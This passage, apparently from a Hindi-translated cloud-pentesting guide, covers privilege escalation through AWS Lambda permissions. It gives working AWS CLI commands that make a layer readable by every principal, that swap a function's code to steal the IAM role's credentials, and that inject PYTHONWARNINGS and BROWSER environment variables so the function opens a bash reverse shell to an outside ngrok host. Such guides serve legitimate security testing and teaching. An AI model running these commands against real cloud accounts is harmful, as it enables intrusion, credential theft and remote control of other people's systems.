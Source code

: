 **संभावित प्रभाव:** कोड को संशोधित करने और इसे चलाने की अनुमति देकर लैम्ब्डा सेवा भूमिका के लिए सीधे प्रिविलेज़ एस्कलेशन।

### `lambda:AddLayerVersionPermission`

इस अनुमति के साथ एक हमलावर **अपने लिए (या दूसरों के लिए) अनुमति `lambda:GetLayerVersion` प्रदान कर सकता है**। वह लेयर तक पहुँच सकता है और कमजोरियों या संवेदनशील जानकारी की खोज कर सकता है।

{% code overflow="wrap" %}
```bash
# Give everyone the permission lambda:GetLayerVersion
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion
```
{% endcode %}

**संभावित प्रभाव:** संवेदनशील जानकारी तक संभावित पहुंच।

### `lambda:UpdateFunctionCode`

**`lambda:UpdateFunctionCode`** अनुमति रखने वाले उपयोगकर्ताओं के पास **IAM भूमिका से जुड़े एक मौजूदा Lambda फ़ंक्शन के कोड को संशोधित करने की क्षमता है।**\
हमलावर **IAM क्रेडेंशियल्स को निकालने के लिए lambda का कोड संशोधित कर सकता है।**

हालांकि हमलावर के पास फ़ंक्शन को सीधे सक्रिय करने की क्षमता नहीं हो सकती है, यदि Lambda फ़ंक्शन पूर्व-निर्मित और कार्यात्मक है, तो यह संभावना है कि इसे मौजूदा वर्कफ़्लो या घटनाओं के माध्यम से सक्रिय किया जाएगा, इस प्रकार संशोधित कोड के निष्पादन को अप्रत्यक्ष रूप से सुविधाजनक बनाता है।

{% code overflow="wrap" %}
```bash
# The zip should contain the lambda code (trick: Download the current one and add your code there)
aws lambda update-function-code --function-name target_function \
--zip-file fileb:///my/lambda/code/zipped.zip

# If you have invoke permissions:
aws lambda invoke --function-name my_function output.txt

# If not check if it's exposed in any URL or via an API gateway you could access
```
{% endcode %}

**संभावित प्रभाव:** उपयोग की जाने वाली लैम्ब्डा सेवा भूमिका के लिए सीधे प्रिवेस्क।

### `lambda:UpdateFunctionConfiguration`

#### env वेरिएबल्स के माध्यम से RCE

इन अनुमतियों के साथ, पर्यावरण वेरिएबल्स जोड़ना संभव है जो लैम्ब्डा को मनमाने कोड को निष्पादित करने का कारण बनेंगे। उदाहरण के लिए, पायथन में पर्यावरण वेरिएबल्स `PYTHONWARNING` और `BROWSER` का दुरुपयोग करके एक पायथन प्रक्रिया को मनमाने कमांड निष्पादित करने के लिए मजबूर किया जा सकता है:

{% code overflow="wrap" %}
```bash
aws --profile none-priv lambda update-function-configuration --function-name <func-name> --environment "Variables={PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=\"/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18755 0>&1' & #%s\"}"
```
{% endcode %}
